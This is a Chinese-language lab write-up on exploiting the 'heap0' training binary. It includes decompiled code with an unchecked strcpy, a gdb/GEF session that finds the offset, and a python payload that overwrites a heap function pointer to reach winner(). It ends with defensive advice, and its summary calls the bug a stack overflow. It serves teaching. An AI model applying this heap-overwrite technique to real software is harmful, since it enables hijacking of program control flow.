 # <center>堆溢出实验1</center>

## 实验概述

### 【目的】
1. 运行heap0，得到输出`level passed`
### 【环境】
Linux
### 【工具】
python,IDA pro
### 【原理】
堆溢出是堆数据区中发生的一种缓冲区溢出。 堆溢出以与基于栈溢出不同的方式被利用。 堆上的内存由应用程序在运行时动态分配，通常包含程序数据。 通过以特定的方式破坏这些数据来执行开发，以使应用程序覆盖诸如链接列表指针的内部结构。 规范堆溢出技术覆盖动态内存分配链接（如malloc元数据），并使用生成的指针交换来覆盖程序函数指针。
## 实验步骤

### 【步骤】
#### heap0
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char *dest; // ST14_4@1
  _DWORD *v4; // eax@1
  void (__stdcall **v5)(_DWORD); // ST18_4@1
  int v7; // [sp-4h] [bp-14h]@0

  dest = (char *)malloc(0x40u);
  v4 = malloc(4u);
  v5 = (void (__stdcall **)(_DWORD))v4;
  *v4 = nowinner;
  printf("data is at %p, fp is at %p\n", dest, v4);
  strcpy(dest, argv[1]);
  (*v5)(v7);
  return 0;
}
int winner()
{
  return puts("level passed");
}
```
连续分配了两个堆块，并对第一个堆块用`strcpy()`，即可以通过溢出第一个堆块从而改写第二个堆块的数据。那么改写第二个堆块的函数指针指向`winner()`，当运行到`(*v5)(v7);`，就会运行函数`winner()`，得到输出`level passed`。

不了解堆的数据结构的话，很难算出溢出点的偏移量，这里介绍一种寻找溢出点的方法。
```
$ gdb heap0 -q
GEF for linux ready, type `gef' to start, `gef config' to configure
66 commands loaded for GDB 7.11.1 using Python engine 3.5
[*] 1 commands could not be loaded, run `gef missing` to know why.
Reading symbols from heap0...(no debugging symbols found)...done.
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
[+] Saved as '$_gef0'
gef➤  r aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Starting program: /home/lometsj/prostar/heap0 aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
data is at 0x804b008, fp is at 0x804b050

Program received signal SIGSEGV, Segmentation fault.
0x61616173 in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ registers ]────
$eax   : 0x61616173 ("saaa"?)
$ebx   : 0xffffcee0  →  0x00000002
$ecx   : 0xffffd1f0  →  "aaxaaayaaa"
$edx   : 0x0804b062  →  "aaxaaayaaa"
$esp   : 0xffffceac  →  0x0804853f  →  <main+114> mov eax, 0x0
$ebp   : 0xffffcec8  →  0x00000000
$esi   : 0xf7fb6000  →  0x001afdb0
$edi   : 0xf7fb6000  →  0x001afdb0
$eip   : 0x61616173 ("saaa"?)
$eflags: [carry parity adjust zero SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0023  $es: 0x002b  $ss: 0x002b  $ds: 0x002b  $fs: 0x0000  $gs: 0x0063  
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ stack ]────
0xffffceac│+0x00: 0x0804853f  →  <main+114> mov eax, 0x0	 ← $esp
0xffffceb0│+0x04: 0x00000002
0xffffceb4│+0x08: 0xffffcf74  →  0xffffd17a  →  "/home/lometsj/prostar/heap0"
0xffffceb8│+0x0c: 0x0804b008  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"
0xffffcebc│+0x10: 0x0804b050  →  "saaataaauaaavaaawaaaxaaayaaa"
0xffffcec0│+0x14: 0xffffcee0  →  0x00000002
0xffffcec4│+0x18: 0x00000000
0xffffcec8│+0x1c: 0x00000000	 ← $ebp
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ code:i386 ]────
[!] Cannot disassemble from $PC
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ threads ]────
[#0] Id 1, Name: "heap0", stopped, reason: SIGSEGV
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ trace ]────
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  pattern search 0x61616173
[+] Searching '0x61616173'
[+] Found at offset 72 (little-endian search) likely
[+] Found at offset 69 (big-endian search) 
```
可以找到溢出点是72。

查找`winner()`的地址。
```
$ objdump -d heap0 | grep winner
0804849b <winner>:
080484b4 <nowinner>:

```
所以有
```
$ python -c 'print "a"*72 + "\x9b\x84\x04\x08"'| xargs ./heap0
data is at 0x86ab008, fp is at 0x86ab050
level passed

```

### 【总结】
本次实验主要体验Linux环境下堆溢出的发生场景，并尝试通过堆溢出覆盖（修改）相邻的堆块数据，达到改变程序执行流的目的。
可以发现，要使栈溢出发生，要满足以下条件：

- 程序允许用户输入
- 程序对用户的输入长度不加检查

栈溢出攻击是最为普遍而又危害极大的漏洞，要防御栈溢出攻击，首先要有良好的编码功力，对于用户的输入数据要做严格的长度检查，避免使用危险的函数。

